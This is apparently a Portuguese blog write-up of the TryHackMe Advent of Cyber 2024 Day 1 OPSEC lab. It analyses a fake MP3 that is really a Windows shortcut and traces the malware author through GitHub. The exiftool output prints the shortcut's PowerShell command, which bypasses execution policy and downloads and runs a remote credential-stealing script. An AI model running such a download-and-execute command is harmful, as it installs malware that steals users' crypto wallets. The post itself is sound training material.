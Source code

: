 ```yaml
---
title: OPSEC - DAY 1 - Advent of Cyber 2024
date: 2024-12-01 10:00:21
categories: [TRYHACKME, ADVENT OF CYBER 2024]
tags: [OPSEC,TRYHACKME]      # TAG names should always be lowercase
---
```


## Objetivos

1. Aprender como investigar links maliciosos.
2. Aprender sobre OPSEC[^fn-nth-1] e seus erros.
3. Entender como rastrear a identidade digital de um indivíduo através de investigações.

## Resumo da aula

É nos mostrado inicialmente, um website que realiza conversão de vídeos do `Youtube` para os formatos `.mp3` ou `.mp4`.
O site realiza a conversão e é gerado um arquivo em formato `.zip`, o arquivo compactado possui dentro dois arquivos e partir desses arquivos começaremos nossa investigação.

[A aula pode ser acessada aqui na tarefa 7](https://tryhackme.com/r/room/adventofcyber2024)

## Ínicio

Acessamos normalmente o website pelo navegador, sem necessidade de inserir um dóminio em nosso arquivo `/etc/hosts`.

![Página inicial do website](/assets/img/posts/2024/12/Advent-Cyber-day1-pic1.png)

Após inserirmos um link do Youtube para download, podemos escolher qual será o formato para download.

`https://www.youtube.com/watch?v=dQw4w9WgXcQ`

Escolhido o formato é iniciado a conversão, após isso, é gerado o arquivo `.zip`.

![Download do arquivo](/assets/img/posts/2024/12/Advent-Cyber-day1-pic2.png)

## Análisando o arquivo

Feito o download iremos descompactar nosso arquivo `.zip`.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# cd ..       
                                                                                                                                                                                                    
┌──(root㉿estudos)-[/home/alex]
└─# cd Downloads 
                                                                                                                                                                                             
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# unzip download.zip
Archive:  download.zip
 extracting: song.mp3                
 extracting: somg.mp3  
 ```

São extraidos dois arquivos, `somg.mp3` e `song.mp3`, de mesmo formato, porém de tamanhos diferentes.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# ls -lh *.mp3      
-rw-rw-r-- 1 root root 2.2K Oct 30 14:32 somg.mp3
-rwxrwxr-x 1 root root 4.4M Oct 24 09:50 song.mp3
```
A primeira análise que iremos realizar é verificar que tipo de arquivos são, utilizando o comando `file`.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# file song.mp3                                                                                                            
song.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
                                                                                                                                                                                                    
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, 
 Has Relative path, Has Working directory,
 Has command line arguments, Unicoded, MachineID win-base-2019, EnableTargetMetadata KnownFolderID 
 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7, Archive, ctime=Sat Sep 15 10:14:14 2018, atime=Sat Sep 15 10:14:14 2018, mtime=Sat Sep 15 10:14:14 2018, length=448000, window=normal, IDListSize 0x020d, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D",
 Volume "C:\", LocalBasePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
Notamos que o arquivo `somg.mp3` não é um arquivo de áudio, mas sim um atalho de Windows (`MS Windows shortcut`).
Com o comando `exiftool` vamos analisar os metadados desse arquivo.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# exiftool somg.mp3 
ExifTool Version Number         : 13.00
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52-03:00
File Access Date/Time           : 2024:12:20 20:43:21-03:00
File Inode Change Date/Time     : 2024:12:20 20:43:21-03:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 04:14:14-03:00
Access Date                     : 2018:09:15 04:14:14-03:00
Modify Date                     : 2018:09:15 04:14:14-03:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019 
```

As linhas que mais importam para nós, começam a partir de "Local Base path" .

```text
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

O atalho basicamente chama o `powershell` , utiliza opção `-ep Bypass` define a política de execução para `Bypass`, realiza o download de um arquivo `.ps1` salvando-o no destino `C:\ProgramData`e após isso o executando-o, chegou a hora de verificar o que temos nessa URL.

## Análisando a URL

[URL suspeita](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

Verificando o código da url temos a informação do nome do criador: `M.M`
O script verifica se o host possui determinadas carteiras Crypto, caso exista ele tenta roubar as credenciais.

![Nome do criador](/assets/img/posts/2024/12/Advent-Cyber-day1-pic3.png)

Assim como é informado na tarefa, podemos realizar de diversas maneiras essa pesquisa em busca do criador do script, na própria URL já temos um indicativo, porém, iremos realizar conforme a tarefa orienta, realizando uma busca no Github pela string: `Created by the one and only M.M.`.

![Pesquisa github](/assets/img/posts/2024/12/Advent-Cyber-day1-pic4.png)

Com isso identificamos o repositório e o nome do criador do código malicioso.

Repositório: `https://github.com/MM-WarevilleTHM/M.M`

![Repositorio e nome do criador](/assets/img/posts/2024/12/Advent-Cyber-day1-pic5.png)

Dessa forma, a aula demonstra, na prática, como um agente malicioso que não segue apropriadamente os padrões de OPSEC pode deixar rastros que conduzem à descoberta de sua identidade real.

## Perguntas

**Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?**






[^fn-nth-1]:Segurança Operacional (OPSEC) é um conjunto de princípios e táticas usados ​​para tentar proteger a segurança de um operador ou operação. Um exemplo disso pode ser usar nomes de código em vez de seus nomes reais, ou usar um proxy para ocultar seu endereço IP.